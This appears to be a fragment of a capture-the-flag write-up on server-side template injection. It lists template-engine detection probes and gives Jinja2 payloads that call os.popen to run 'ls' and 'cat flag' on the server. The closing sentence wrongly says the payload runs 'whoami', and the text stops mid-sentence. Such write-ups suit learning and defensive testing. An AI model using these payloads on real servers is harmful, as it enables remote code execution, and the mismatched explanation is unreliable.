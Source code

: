 to solve this challenge we need first to identify the languge that this website writen with,
```
Jinja2 (Python Flask/Django): {{ 7*7 }}
Freemarker (Java): ${7*7}
Velocity (Java): #set($a = 7*7)${a}
Thymeleaf (Java): ${7*7}
Twig (PHP Symfony): {{ 7*7 }}
Smarty (PHP): {$7*7}
Mako (Python): <% print 7*7 %>
```

we relize that its writen in python.<br>

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```
This payload attempts to execute the whoami command on the server. If successful, it returns the current user’s name —


